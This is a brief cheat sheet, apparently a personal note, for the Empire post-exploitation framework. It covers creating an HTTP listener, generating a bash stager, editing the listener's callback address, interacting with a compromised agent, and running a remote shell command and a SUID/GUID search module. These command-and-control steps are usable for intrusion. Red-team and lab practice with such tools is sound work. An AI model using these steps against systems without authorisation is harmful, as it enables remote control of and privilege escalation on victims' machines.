 === empire

https://github.com/EmpireProject/Empire

## Setup a listener

- `listeners` Switch to listeners menu
- `uselistener http`
- `set Name test`
- `set Port 8000`
- `set URL http://127.0.0.1:8000`
- `execute`

## Generate a stager
- `usestager multi/bash`
- `set Listener test`
- `generate`


## After you botch the listener

- `listeners`
- `edit test URL http://172.100.100.100:8000`
- `disable test`
- `enable test`

## Using an agent

- `agents`
- `interact Q2CT0UO9`
- `shell id` Run a shell command
- `usemodule situational_awareness/host/multi/SuidGuidSearch`
- `execute`

<<<

